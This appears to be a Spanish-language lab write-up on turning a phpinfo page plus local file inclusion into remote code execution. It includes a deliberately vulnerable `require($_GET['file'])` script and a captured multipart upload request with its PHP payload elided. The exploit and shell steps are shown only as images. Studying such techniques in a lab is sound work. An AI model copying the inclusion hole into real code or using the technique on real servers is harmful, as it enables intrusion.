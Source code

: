 ```yaml
---
layout: default
title: "PHPINFO + LFI = RCE"
permalink: /rce-phpinfo/
---
```


# PhpInfo + LFI = RCE

## Creando el entorno

Version Actual

	PHP Version 7.4.11

Crear los archivos en el directorio /var/www/html

```php
┌─[root@parrot]─[/var/www/html]
└──╼ #cat phpinfo.php 
<?php
	phpinfo();
?>
┌─[root@parrot]─[/var/www/html]
└──╼ #cat lfi.php 
<?php
	require($_GET['file']);
?>
```

## Ejecutando el Exploit

![Exploit Run](https://funkyimg.com/i/392Gg.png)

![Get Shell](https://funkyimg.com/i/392Gh.png)

## Analizando Exploit

### En el codigo

![Xploit](https://funkyimg.com/i/392Gi.png)

![xploit2](https://funkyimg.com/i/392Gj.png)

### Analizando con Wireshark

![Packet HTTP](https://funkyimg.com/i/392Gk.png)

### Packet HTTP Request

```
POST /phpinfo.php?a=A...A HTTP/1.1
HTTP_ACCEPT: A...A
HTTP_USER_AGENT: A...A
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714
Content-Length: 3661
Host: 127.0.0.1

-----------------------------7dbff1ded0714
Content-Disposition: form-data; name="dummyname"; filename="test.txt"
Content-Type: text/plain

Security Test
<?php
    ...code...;
?> 

-----------------------------7dbff1ded0714--
```

### Packet HTTP Response

![packeter_http_response](https://funkyimg.com/i/392Gm.png)

### Execute Code Php

![Request-Shell-Code](https://funkyimg.com/i/392Gn.png)



## Referencias

* [https://www.hackplayers.com/2018/12/race-condition-phpinfo-mas-lfi-rce.html](https://www.hackplayers.com/2018/12/race-condition-phpinfo-mas-lfi-rce.html)

* [https://github.com/M4LV0/LFI-phpinfo-RCE](https://github.com/M4LV0/LFI-phpinfo-RCE)

* [https://hub.docker.com/r/dimonpvt/php5.5.9](https://hub.docker.com/r/dimonpvt/php5.5.9)

* [https://developer.mozilla.org/es/docs/Web/HTTP/Headers/Content-Type](https://developer.mozilla.org/es/docs/Web/HTTP/Headers/Content-Type)

* [https://tools.ietf.org/html/rfc7231#section-3.1.1.4](https://tools.ietf.org/html/rfc7231#section-3.1.1.4)
